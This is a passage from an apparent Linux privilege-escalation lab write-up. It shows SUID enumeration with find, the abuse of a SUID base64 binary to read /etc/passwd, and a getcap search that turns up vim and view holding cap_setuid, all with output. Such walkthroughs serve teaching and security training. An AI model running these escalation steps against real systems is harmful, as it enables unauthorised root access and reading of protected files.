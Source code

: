 ![](https://miro.medium.com/v2/resize:fit:281/0*i_EE3VkXgYDuLIYE)  
  
The setuid bit is a permission bit that allows the users to run an executable with the file system permissions of the executable's owner or group respectively and to change behavior in directories. It is often used to allow users on a computer system to run programs with temporarily elevated privileges in order to perform a specific task. 
  
![](https://miro.medium.com/v2/resize:fit:559/0*E0Un7SPGfP94jun8)  
  
We run the command 
  
``` 
find / -type f -perm -04000 -ls 2>/dev/null 
``` 
  
To detect binaries that have the suid bit on, then we check in gtfobins.github.io 
  
If the binary can lead to a privilege escalation 
  
``` 
1857 52 -rwsr-xr-x 1 root root 53040 May 28 2020 /usr/bin/chsh 
1722 44 -rwsr-xr-x 1 root root 43352 Sep 5 2019 /usr/bin/base64 
1674 68 -rwsr-xr-x 1 root root 67816 Jul 21 2020 /usr/bin/su 
``` 
  
![](https://miro.medium.com/v2/resize:fit:875/0*hYancme6jmkUggEF)  
  
``` 
karen@ip-10–10–181–108:/tmp$ base64 /etc/passwd | base64 - decode 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
``` 
  
# **4. Limited capabilities** 
  
This occurs when an administrator raises the permission of a binary using the getcap tool. 
  
We search for this flaw using getcap. 
  
``` 
getcap -r / 2>/dev/null 
``` 
  
After running getcap -r check the binaries that can be exploited 
  
``` 
karen@ip-10–10–91–51:~$ getcap -r / 2>/dev/null 
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep 
/usr/bin/traceroute6.iputils = cap_net_raw+ep 
/usr/bin/mtr-packet = cap_net_raw+ep 
/usr/bin/ping = cap_net_raw+ep 
/home/karen/vim = cap_setuid+ep 
/home/ubuntu/view = cap_setuid+ep 
``` 
  